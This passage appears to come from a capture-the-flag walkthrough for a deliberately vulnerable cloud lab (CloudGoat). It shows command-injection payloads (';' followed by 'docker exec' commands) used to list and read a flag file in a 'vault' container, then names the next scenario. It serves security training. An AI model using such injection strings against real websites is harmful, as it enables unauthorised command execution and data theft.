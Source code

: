 * Using the command injection on the website get the _flag_ from the **"vault"** container.

```bash
; docker exec <vault container id> ls
```

<p align="center">
  <img src="/images/cloud/docker_exec.png">
</p>

```bash
; docker exec <vault container id> cat FLAG.TXT
```

<p align="center">
  <img src="/images/cloud/aws_ecstakeover_flag.png">
</p>

**Scenario:** RCE Web Application

**Command:** `./cloudgoat.py create rce_web_app`
